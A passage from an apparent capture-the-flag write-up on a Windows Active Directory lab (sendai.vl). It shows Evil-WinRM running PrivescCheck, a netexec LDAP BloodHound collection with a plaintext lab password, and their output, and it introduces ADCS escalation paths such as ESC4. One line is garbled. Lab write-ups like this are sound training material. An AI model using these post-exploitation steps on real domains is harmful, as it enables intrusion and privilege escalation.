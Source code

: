 lets upload PrivescCheck.ps1

```bash
*Evil-WinRM* PS C:\Users\mgtsvc$\documents> .\PrivescCheck.ps1  
*Evil-WinRM* PS C:\Users\mgtsvc$\documents> Import-Module .\PrivescCheck.ps1  
*Evil-WinRM* PS C:\Users\mgtsvc$\documents> Invoke-PrivescCheck

```

### Output

```bash
ame        : SQLBrowser
DisplayName : SQL Server Browser
ImagePath   : "C:\Program Files (x86)\Microsoft SQL Server\90\Shared\sqlbrowser.exe"
User        : NT AUTHORITY\LOCALSERVICE
StartMode   : Disabled

Name        : SQLTELEMETRY$SQLEXPRESS
DisplayName : SQL Server CEIP service (SQLEXPRESS)
ImagePath   : "C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\Binn\sqlceip.exe" -Service SQLEXPRESS
User        : NT Service\SQLTELEMETRY$SQLEXPRESS
StartMode   : Automatic

Name        : SQLWriter
DisplayName : SQL Server VSS Writer
ImagePath   : "C:\Program Files\Microsoft SQL Server\90\Shared\sqlwriter.exe"
User        : LocalSystem
StartMode   : Automatic

Name        : ssh-agent
DisplayName : OpenSSH Authenticatio

```


creditionals u  Support  -p


## Checking for ADCS Attacks — Because It Opens A LOT of Doors!
With Clifford.Davey’s credentials in hand, the next step is to assess the Active Directory Certificate Services (ADCS) configuration for potential misconfigurations. ADCS attacks are critical to evaluate in an Active Directory environment, as they can provide multiple attack paths, including privilege escalation and domain compromise. By systematically reviewing certificate templates and permissions, we can identify vulnerabilities such as ESC4 or other misconfigurations that could be exploited to gain elevated access within the domain.

```bash
netexec ldap 10.10.91.145 -u 'clifford.davey' -p 'RFmoB2WplgE_3p' --bloodhound --dns-server 10.10.91.145 -c ALL --dns-tcp
```

```output
LDAP        10.10.91.145    389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:sendai.vl)
LDAP        10.10.91.145    389    DC               [+] sendai.vl\clifford.davey:RFmoB2WplgE_3p 
LDAP        10.10.91.145    389    DC               Resolved collection methods: acl, session, rdp, group, localadmin, objectprops, psremote, trusts, dcom, container
LDAP        10.10.91.145    389    DC               Done in 00M 07S
LDAP        10.10.91.145    389    DC               Compressing output into /home/kali/.nxc/logs/DC_10.10.91.145_2025-09-25_125151_bloodhound.zip
                              

```

